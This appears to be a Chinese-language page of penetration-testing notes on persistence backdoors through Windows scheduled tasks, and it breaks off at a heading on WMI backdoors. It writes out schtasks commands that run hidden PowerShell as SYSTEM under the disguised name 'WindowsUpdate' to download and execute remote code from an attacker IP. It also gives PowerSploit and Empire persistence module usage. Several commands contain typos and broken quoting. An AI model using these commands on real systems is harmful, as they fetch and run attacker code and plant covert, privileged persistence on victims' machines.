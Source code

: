 #### 计划任务后门

- Metasploit 模拟计划任务后门

```
use exploit/multi/script/web_delivery

（1）用户登陆
schtacks /create /tn WindowsUpdate /tr "c:\windows\system32\powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('http://192.xxx.xxx.xxx'")'" /sc onlogon /ru system

(2)系统启动
schtacks /create /tn WindowsUpdate /tr "c:\windows\system32\powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('http://192.xxx.xxx.xxx'")'" /sc onstart /ru system

(3)系统空闲
schtacks /create /tn WindowsUpdate /tr "c:\windows\system32\powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('http://192.xxx.xxx.xxx'")'" /sc onidle /i l
```
- PowerSploit模拟生成后门

```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Persistence/Persistence.psm1

创建后门。空闲状态下执行
shuteer.ps1为要执行的payload
Import-Moudle ./Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$ UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle Add-Persistence -FilePath ./shuteer.ps1 -ElevatedPersistenceOption
$ElevatedOptions - UserPersistenceOption $UserOptions -Verbose
```
- Empire模拟后门

```
usemoudle persistence/elevated/schtasks
set DailyTime 16:17
set Listener test
execute
```
- meterpreter后门

```
Persistence
```
- Cymothoa后门

```
Cymothoa
```

- WMI后门（管理员）
